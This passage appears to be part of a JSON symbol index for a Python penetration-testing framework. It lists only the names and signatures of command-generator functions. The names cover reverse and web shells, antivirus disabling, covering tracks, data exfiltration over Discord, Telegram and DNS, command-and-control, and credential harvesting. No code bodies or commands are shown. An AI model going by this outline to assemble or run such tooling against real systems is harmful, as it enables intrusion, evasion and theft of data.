tool_name, _cmd)"}, {"kind": "function", "line": 1472, "name": "_gen_cloud_buckets", "signature": "def _gen_cloud_buckets(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1480, "name": "_gen_cloud_enum", "signature": "def _gen_cloud_enum(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1488, "name": "_gen_cloud_iam", "signature": "def _gen_cloud_iam(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1496, "name": "_gen_cloud_metadata", "signature": "def _gen_cloud_metadata(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1504, "name": "_gen_cloud_scan", "signature": "def _gen_cloud_scan(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1512, "name": "_gen_cme", "signature": "def _gen_cme(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1520, "name": "_gen_collab_join", "signature": "def _gen_collab_join(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1528, "name": "_gen_commix", "signature": "def _gen_commix(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1536, "name": "_gen_config_banner", "signature": "def _gen_config_banner(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1544, "name": "_gen_conptyshell", "signature": "def _gen_conptyshell(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1552, "name": "_gen_container_detect", "signature": "def _gen_container_detect(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1560, "name": "_gen_container_escape", "signature": "def _gen_container_escape(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1568, "name": "_gen_convert_remcomsvc_from_file", "signature": "def _gen_convert_remcomsvc_from_file(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1578, "name": "_gen_cover_tracks", "signature": "def _gen_cover_tracks(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1586, "name": "_gen_cp", "signature": "def _gen_cp(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1594, "name": "_gen_cports", "signature": "def _gen_cports(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1602, "name": "_gen_crack_cisco_7_password", "signature": "def _gen_crack_cisco_7_password(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1610, "name": "_gen_crack_hashes", "signature": "def _gen_crack_hashes(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1618, "name": "_gen_create_session_json", "signature": "def _gen_create_session_json(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1626, "name": "_gen_create_synthetic", "signature": "def _gen_create_synthetic(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1634, "name": "_gen_createcookie", "signature": "def _gen_createcookie(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1642, "name": "_gen_createcredentials", "signature": "def _gen_createcredentials(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1650, "name": "_gen_createdll", "signature": "def _gen_createdll(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1658, "name": "_gen_createhash", "signature": "def _gen_createhash(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1666, "name": "_gen_createjsonmachine", "signature": "def _gen_createjsonmachine(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1674, "name": "_gen_createjsonmachine_batch", "signature": "def _gen_createjsonmachine_batch(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1682, "name": "_gen_createmail", "signature": "def _gen_createmail(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1690, "name": "_gen_createpayload", "signature": "def _gen_createpayload(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1698, "name": "_gen_createrevshell", "signature": "def _gen_createrevshell(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1706, "name": "_gen_createtargets", "signature": "def _gen_createtargets(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1714, "name": "_gen_createusers_and_hashs", "signature": "def _gen_createusers_and_hashs(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1722, "name": "_gen_createwebshell", "signature": "def _gen_createwebshell(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1730, "name": "_gen_createwinrevshell", "signature": "def _gen_createwinrevshell(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1738, "name": "_gen_cred", "signature": "def _gen_cred(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1746, "name": "_gen_cred_mark_failed", "signature": "def _gen_cred_mark_failed(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1754, "name": "_gen_cred_reuse", "signature": "def _gen_cred_reuse(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1762, "name": "_gen_creds_py", "signature": "def _gen_creds_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1770, "name": "_gen_cron", "signature": "def _gen_cron(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1778, "name": "_gen_crunch", "signature": "def _gen_crunch(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1786, "name": "_gen_crystal_ball", "signature": "def _gen_crystal_ball(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1794, "name": "_gen_ctx", "signature": "def _gen_ctx(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1802, "name": "_gen_cubespraying", "signature": "def _gen_cubespraying(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1810, "name": "_gen_cve", "signature": "def _gen_cve(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1818, "name": "_gen_d3monizedshell", "signature": "def _gen_d3monizedshell(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1826, "name": "_gen_dacledit", "signature": "def _gen_dacledit(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1834, "name": "_gen_darkarmour", "signature": "def _gen_darkarmour(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1842, "name": "_gen_dashboard", "signature": "def _gen_dashboard(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1850, "name": "_gen_davtest", "signature": "def _gen_davtest(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1858, "name": "_gen_db_creds", "signature": "def _gen_db_creds(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1866, "name": "_gen_db_export", "signature": "def _gen_db_export(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1874, "name": "_gen_db_hosts", "signature": "def _gen_db_hosts(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1882, "name": "_gen_db_import", "signature": "def _gen_db_import(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1890, "name": "_gen_db_init", "signature": "def _gen_db_init(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1898, "name": "_gen_db_loot", "signature": "def _gen_db_loot(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1906, "name": "_gen_db_notes", "signature": "def _gen_db_notes(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1914, "name": "_gen_db_services", "signature": "def _gen_db_services(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1922, "name": "_gen_db_status", "signature": "def _gen_db_status(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1930, "name": "_gen_db_vulns", "signature": "def _gen_db_vulns(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1938, "name": "_gen_db_workspace", "signature": "def _gen_db_workspace(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1946, "name": "_gen_dcomexec", "signature": "def _gen_dcomexec(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1954, "name": "_gen_decode", "signature": "def _gen_decode(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1962, "name": "_gen_decrypt", "signature": "def _gen_decrypt(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1970, "name": "_gen_depconfuse", "signature": "def _gen_depconfuse(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1978, "name": "_gen_depscan", "signature": "def _gen_depscan(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1986, "name": "_gen_detect_edr", "signature": "def _gen_detect_edr(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1994, "name": "_gen_dig", "signature": "def _gen_dig(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2002, "name": "_gen_digdug", "signature": "def _gen_digdug(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2010, "name": "_gen_dirsearch", "signature": "def _gen_dirsearch(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2018, "name": "_gen_disableav", "signature": "def _gen_disableav(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2026, "name": "_gen_dmitry", "signature": "def _gen_dmitry(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2034, "name": "_gen_dns_beacon", "signature": "def _gen_dns_beacon(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2042, "name": "_gen_dns_beacon_status", "signature": "def _gen_dns_beacon_status(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2050, "name": "_gen_dns_exfil_listen", "signature": "def _gen_dns_exfil_listen(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2058, "name": "_gen_dnschef", "signature": "def _gen_dnschef(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2066, "name": "_gen_dnsenum", "signature": "def _gen_dnsenum(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2074, "name": "_gen_dnsmap", "signature": "def _gen_dnsmap(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2082, "name": "_gen_dnstool_py", "signature": "def _gen_dnstool_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2090, "name": "_gen_docker_enum", "signature": "def _gen_docker_enum(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2098, "name": "_gen_doctor", "signature": "def _gen_doctor(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2106, "name": "_gen_dominion", "signature": "def _gen_dominion(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2114, "name": "_gen_download_c2", "signature": "def _gen_download_c2(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2122, "name": "_gen_download_exploit", "signature": "def _gen_download_exploit(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2130, "name": "_gen_download_malwarebazar", "signature": "def _gen_download_malwarebazar(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2138, "name": "_gen_download_resources", "signature": "def _gen_download_resources(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2146, "name": "_gen_downloader", "signature": "def _gen_downloader(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2154, "name": "_gen_dpapi_blob", "signature": "def _gen_dpapi_blob(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2162, "name": "_gen_dpapi_harvest", "signature": "def _gen_dpapi_harvest(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2170, "name": "_gen_dpapi_masterkeys", "signature": "def _gen_dpapi_masterkeys(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2178, "name": "_gen_dploot", "signature": "def _gen_dploot(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2186, "name": "_gen_dr0p1t", "signature": "def _gen_dr0p1t(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2194, "name": "_gen_duckyspark", "signature": "def _gen_duckyspark(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2202, "name": "_gen_edr_detect", "signature": "def _gen_edr_detect(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2210, "name": "_gen_edr_profile", "signature": "def _gen_edr_profile(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2218, "name": "_gen_edr_script", "signature": "def _gen_edr_script(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2226, "name": "_gen_emp3r0r", "signature": "def _gen_emp3r0r(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2234, "name": "_gen_empire", "signature": "def _gen_empire(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2242, "name": "_gen_encode", "signature": "def _gen_encode(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2250, "name": "_gen_encoderpayload", "signature": "def _gen_encoderpayload(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2258, "name": "_gen_encodewinbase64", "signature": "def _gen_encodewinbase64(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2266, "name": "_gen_encrypt", "signature": "def _gen_encrypt(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2274, "name": "_gen_engage", "signature": "def _gen_engage(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2282, "name": "_gen_enum4linux", "signature": "def _gen_enum4linux(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2290, "name": "_gen_enum4linux_ng", "signature": "def _gen_enum4linux_ng(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2298, "name": "_gen_eternal", "signature": "def _gen_eternal(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2306, "name": "_gen_evasion", "signature": "def _gen_evasion(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2314, "name": "_gen_evasive", "signature": "def _gen_evasive(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2322, "name": "_gen_evasive_payload", "signature": "def _gen_evasive_payload(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2330, "name": "_gen_event_log", "signature": "def _gen_event_log(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2338, "name": "_gen_evidence", "signature": "def _gen_evidence(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2346, "name": "_gen_evil_ssdp", "signature": "def _gen_evil_ssdp(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2354, "name": "_gen_evilwinrm", "signature": "def _gen_evilwinrm(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2362, "name": "_gen_excelntdonut", "signature": "def _gen_excelntdonut(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2370, "name": "_gen_exe2bin", "signature": "def _gen_exe2bin(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2378, "name": "_gen_exe2donutbin", "signature": "def _gen_exe2donutbin(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2386, "name": "_gen_exfil_auto", "signature": "def _gen_exfil_auto(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2394, "name": "_gen_exfil_discord", "signature": "def _gen_exfil_discord(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2402, "name": "_gen_exfil_dns", "signature": "def _gen_exfil_dns(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2410, "name": "_gen_exfil_gcs", "signature": "def _gen_exfil_gcs(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2418, "name": "_gen_exfil_http", "signature": "def _gen_exfil_http(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2426, "name": "_gen_exfil_s3", "signature": "def _gen_exfil_s3(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2434, "name": "_gen_exfil_start_server", "signature": "def _gen_exfil_start_server(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2442, "name": "_gen_exfil_telegram", "signature": "def _gen_exfil_telegram(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2450, "name": "_gen_exit", "signature": "def _gen_exit(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2458, "name": "_gen_explore", "signature": "def _gen_explore(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2466, "name": "_gen_extract_ports", "signature": "def _gen_extract_ports(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2474, "name": "_gen_extract_yaml", "signature": "def _gen_extract_yaml(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2482, "name": "_gen_eyewitness", "signature": "def _gen_eyewitness(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2490, "name": "_gen_eyewitness_py", "signature": "def _gen_eyewitness_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2498, "name": "_gen_feroxbuster", "signature": "def _gen_feroxbuster(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2506, "name": "_gen_filtering", "signature": "def _gen_filtering(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2514, "name": "_gen_finalrecon", "signature": "def _gen_finalrecon(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2522, "name": "_gen_find", "signature": "def _gen_find(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2530, "name": "_gen_finger_user_enum", "signature": "def _gen_finger_user_enum(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2538, "name": "_gen_fixel", "signature": "def _gen_fixel(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2546, "name": "_gen_fixperm", "signature": "def _gen_fixperm(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2554, "name": "_gen_follina", "signature": "def _gen_follina(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2562, "name": "_gen_form", "signature": "def _gen_form(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2570, "name": "_gen_ftp", "signature": "def _gen_ftp(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2578, "name": "_gen_fuzz", "signature": "def _gen_fuzz(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2586, "name": "_gen_fz", "signature": "def _gen_fz(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2594, "name": "_gen_gencert", "signature": "def _gen_gencert(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2602, "name": "_gen_generate", "signature": "def _gen_generate(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2610, "name": "_gen_generate_playbook", "signature": "def _gen_generate_playbook(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2618, "name": "_gen_generate_revshell", "signature": "def _gen_generate_revshell(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2626, "name": "_gen_generatedic", "signature": "def _gen_generatedic(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2634, "name": "_gen_getTGT", "signature": "def _gen_getTGT(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2642, "name": "_gen_get_avaible_actions", "signature": "def _gen_get_avaible_actions(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2650, "name": "_gen_getadusers", "signature": "def _gen_getadusers(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2658, "name": "_gen_getcap", "signature": "def _gen_getcap(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2666, "name": "_gen_getnpusers", "signature": "def _gen_getnpusers(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2674, "name": "_gen_getnthash_py", "signature": "def _gen_getnthash_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2682, "name": "_gen_gets4uticket_py", "signature": "def _gen_gets4uticket_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2690, "name": "_gen_getseclist", "signature": "def _gen_getseclist(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2698, "name": "_gen_gettgtpkinit_py", "signature": "def _gen_gettgtpkinit_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2706, "name": "_gen_getuserspns", "signature": "def _gen_getuserspns(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2714, "name": "_gen_gitdumper", "signature": "def _gen_gitdumper(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2722, "name": "_gen_gitlab_enum", "signature": "def _gen_gitlab_enum(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2730, "name": "_gen_gmsadumper", "signature": "def _gen_gmsadumper(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2738, "name": "_gen_gobuster", "signature": "def _gen_gobuster(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2746, "name": "_gen_god_nodes", "signature": "def _gen_god_nodes(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2754, "name": "_gen_gospherus", "signature": "def _gen_gospherus(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2762, "name": "_gen_gospider", "signature": "def _gen_gospider(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2770, "name": "_gen_gowitness", "signature": "def _gen_gowitness(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2778, "name": "_gen_gpt", "signature": "def _gen_gpt(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2786, "name": "_gen_graph", "signature": "def _gen_graph(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2794, "name": "_gen_graph_overlay", "signature": "def _gen_graph_overlay(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2802, "name": "_gen_graudit", "signature": "def _gen_graudit(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2810, "name": "_gen_greatSCT", "signature": "def _gen_greatSCT(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2818, "name": "_gen_grep_log", "signature": "def _gen_grep_log(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2826, "name": "_gen_grisun0", "signature": "def _gen_grisun0(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2834, "name": "_gen_grisun0w", "signature": "def _gen_grisun0w(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2842, "name": "_gen_groq", "signature": "def _gen_groq(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2850, "name": "_gen_gtfo", "signature": "def _gen_gtfo(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2858, "name": "_gen_gym", "signature": "def _gen_gym(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2866, "name": "_gen_h", "signature": "def _gen_h(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2874, "name": "_gen_hashcat", "signature": "def _gen_hashcat(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2882, "name": "_gen_hex2shellcode", "signature": "def _gen_hex2shellcode(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2890, "name": "_gen_hex_to_plaintext", "signature": "def _gen_hex_to_plaintext(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2898, "name": "_gen_hooks", "signature": "def _gen_hooks(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2906, "name": "_gen_hooks_add", "signature": "def _gen_hooks_add(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2914, "name": "_gen_hooks_enable", "signature": "def _gen_hooks_enable(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2922, "name": "_gen_hooks_fire", "signature": "def _gen_hooks_fire(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2930, "name": "_gen_hooks_list", "signature": "def _gen_hooks_list(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2938, "name": "_gen_hooks_remove", "signature": "def _gen_hooks_remove(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2946, "name": "_gen_hostdiscover", "signature": "def _gen_hostdiscover(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2954, "name": "_gen_hound", "signature": "def _gen_hound(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2962, "name": "_gen_http_exfil_server", "signature": "def _gen_http_exfil_server(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2970, "name": "_gen_httprobe", "signature": "def _gen_httprobe(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2978, "name": "_gen_hunt", "signature": "def _gen_hunt(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2986, "name": "_gen_hydra", "signature": "def _gen_hydra(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 2994, "name": "_gen_id_rsa", "signature": "def _gen_id_rsa(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3002, "name": "_gen_ignorearp", "signature": "def _gen_ignorearp(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3010, "name": "_gen_ignoreicmp", "signature": "def _gen_ignoreicmp(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3018, "name": "_gen_iis_webdav_upload_asp", "signature": "def _gen_iis_webdav_upload_asp(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3026, "name": "_gen_img2cookie", "signature": "def _gen_img2cookie(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3034, "name": "_gen_img2vid", "signature": "def _gen_img2vid(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3042, "name": "_gen_internet_proxy", "signature": "def _gen_internet_proxy(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3050, "name": "_gen_ip", "signature": "def _gen_ip(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3058, "name": "_gen_ip2asn", "signature": "def _gen_ip2asn(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3066, "name": "_gen_ip2hex", "signature": "def _gen_ip2hex(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3074, "name": "_gen_ipinfo", "signature": "def _gen_ipinfo(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3082, "name": "_gen_ipp", "signature": "def _gen_ipp(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3090, "name": "_gen_issue_command_to_c2", "signature": "def _gen_issue_command_to_c2(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3098, "name": "_gen_ivy", "signature": "def _gen_ivy(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3106, "name": "_gen_jenkins_enum", "signature": "def _gen_jenkins_enum(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3114, "name": "_gen_john2hash", "signature": "def _gen_john2hash(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3122, "name": "_gen_john2keepas", "signature": "def _gen_john2keepas(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3130, "name": "_gen_john2zip", "signature": "def _gen_john2zip(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3138, "name": "_gen_jwt_tool", "signature": "def _gen_jwt_tool(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3146, "name": "_gen_k8s_enum", "signature": "def _gen_k8s_enum(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3154, "name": "_gen_k8s_pods", "signature": "def _gen_k8s_pods(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3162, "name": "_gen_k8s_secrets", "signature": "def _gen_k8s_secrets(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3170, "name": "_gen_karma", "signature": "def _gen_karma(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3178, "name": "_gen_keepass", "signature": "def _gen_keepass(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3186, "name": "_gen_kerbrute", "signature": "def _gen_kerbrute(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3194, "name": "_gen_kick", "signature": "def _gen_kick(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3202, "name": "_gen_knokknok", "signature": "def _gen_knokknok(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3210, "name": "_gen_krbrelayx_py", "signature": "def _gen_krbrelayx_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3218, "name": "_gen_kusa", "signature": "def _gen_kusa(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3226, "name": "_gen_l00t", "signature": "def _gen_l00t(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3234, "name": "_gen_lab", "signature": "def _gen_lab(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3242, "name": "_gen_lateral_mov_lin", "signature": "def _gen_lateral_mov_lin(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3250, "name": "_gen_launchpad", "signature": "def _gen_launchpad(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3258, "name": "_gen_lazy_payload_keys", "signature": "def _gen_lazy_payload_keys(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3266, "name": "_gen_lazy_runtime", "signature": "def _gen_lazy_runtime(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3274, "name": "_gen_lazynmap", "signature": "def _gen_lazynmap(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3282, "name": "_gen_lazypwn", "signature": "def _gen_lazypwn(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3290, "name": "_gen_lazyreport", "signature": "def _gen_lazyreport(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3298, "name": "_gen_lazyscript", "signature": "def _gen_lazyscript(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3306, "name": "_gen_lazywebshell", "signature": "def _gen_lazywebshell(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3314, "name": "_gen_ldapdomaindump", "signature": "def _gen_ldapdomaindump(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3322, "name": "_gen_ldapsearch", "signature": "def _gen_ldapsearch(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3330, "name": "_gen_les", "signature": "def _gen_les(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3338, "name": "_gen_lfi", "signature": "def _gen_lfi(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3346, "name": "_gen_ligolo", "signature": "def _gen_ligolo(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3354, "name": "_gen_links", "signature": "def _gen_links(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3362, "name": "_gen_linpeas", "signature": "def _gen_linpeas(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3370, "name": "_gen_list", "signature": "def _gen_list(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3378, "name": "_gen_listaliases", "signature": "def _gen_listaliases(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3386, "name": "_gen_listener", "signature": "def _gen_listener(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3394, "name": "_gen_listener_go", "signature": "def _gen_listener_go(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3402, "name": "_gen_listener_py", "signature": "def _gen_listener_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3410, "name": "_gen_llm_budget", "signature": "def _gen_llm_budget(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3418, "name": "_gen_load_session", "signature": "def 